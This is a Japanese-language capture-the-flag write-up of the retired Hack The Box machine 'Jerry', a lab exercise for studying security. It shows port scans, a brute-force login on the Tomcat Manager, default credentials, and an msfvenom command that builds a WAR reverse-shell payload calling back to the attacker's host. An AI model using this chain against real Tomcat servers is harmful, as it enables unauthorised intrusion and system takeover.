






「Hack The Box」という、ペネトレーションテストの学習プラットフォームを利用してセキュリティについて学んでいます。
「Hack The Box」のランクは、本記事執筆時点でProHackerです。


今回は、HackTheBoxのリタイアマシン「Jerry」のWriteUpです。

<!-- omit in toc -->
## 本記事について

**本記事の内容は社会秩序に反する行為を推奨することを目的としたものではございません。**

自身の所有する環境、もしくは許可された環境以外への攻撃の試行は、「不正アクセス行為の禁止等に関する法律（不正アクセス禁止法）」に違反する可能性があること、予めご留意ください。

またすべての発言は所属団体ではなく個人に帰属します。

<!-- omit in toc -->
## もくじ
- [探索](#探索)
- [侵入](#侵入)
- [まとめ](#まとめ)

## 探索

とりあえずいつも通りポートスキャンをかけます。

``` bash
$ sudo sed -i 's/^[0-9].*targethost.htb/10.10.10.95 targethost.htb/g' /etc/hosts
$ nmap -sV -sC -T4 targethost.htb| tee nmap1.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-31 05:46 PDT
Note: Host seems down. If it is really up, but blocking our ping probes, try -Pn
Nmap done: 1 IP address (0 hosts up) scanned in 2.26 seconds
```

ホストが立ち上がっていないと誤認?されていたので-Pnオプションを付けた結果、8080ポートが動いていることがわかりました。

``` bash
$ nmap -sV -sC -Pn -T4 targethost.htb| tee nmap1.txt
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-31 05:46 PDT
Nmap scan report for targethost.htb (10.10.10.95)
Host is up (0.23s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 31.08 seconds
```

アクセスすると`Apache Tomcat/7.0.88`が動いていることがわかります。



脆弱性を探すために[Apache Tomcat 7 vulnerabilities](https://tomcat.apache.org/security-7.html#Fixed_in_Apache_Tomcat_7.0.109)のリリースノートを読んでいきます。

ここで、CVE-2019-0232というRCEの脆弱性を見つけましたが、残念ながらVictimには`cgi/ism.bat`が存在しないようで、エクスプロイトが利用できませんでした。



続いて見つけた脆弱性は`CNVD-2020-10487(CVE-2020-1938)`でしたが、どうやらこれもajp13のポートがフィルタされているようで動作しなさそうでした。

``` bash
$ nmap -sV -sC -T4 -Pn -p 8009 targethost.htb
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-31 06:35 PDT
Nmap scan report for targethost.htb (10.10.10.95)
Host is up.

PORT     STATE    SERVICE VERSION
8009/tcp filtered ajp13
```

というわけで他の穴を探していきます。

ManagerAppという認証が必要なページがありました。

Tomcatのデフォルトのクレデンシャルは、adminとブランクパスワードとのことでしたが、これは動作しませんでした。



ユーザ名をadminにして辞書攻撃を行ったところ、パスワードもadminで開けることがわかりました。



ログインには成功したものの権限がなさそうです。



そこで、このページのExampleに記載のtomcat/s3cretというクレデンシャルを試してみたところ、ManagerAppにログインできました。



## 侵入

とりあえずManagerAppに侵入できたのでエクスプロイトの方法を探していきます。

以下の記事を見ると、WARファイルをアップロードすることでリバースシェルが取得できるようです。

参考：[Multiple Ways to Exploit Tomcat Manager - Hacking Articles](https://www.hackingarticles.in/multiple-ways-to-exploit-tomcat-manager/)

というわけで、以下のコマンドでペイロードを作成しました。

``` bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.4 LPORT=4444 -f war > shell.war
```

これでブラウザから`10.10.10.95:8080/shell`にアクセスすると、system権限のシェルが取れました。

## まとめ

パスワード系はブルートフォースの前に手動で試すパターンを作っておいた方が早そう。
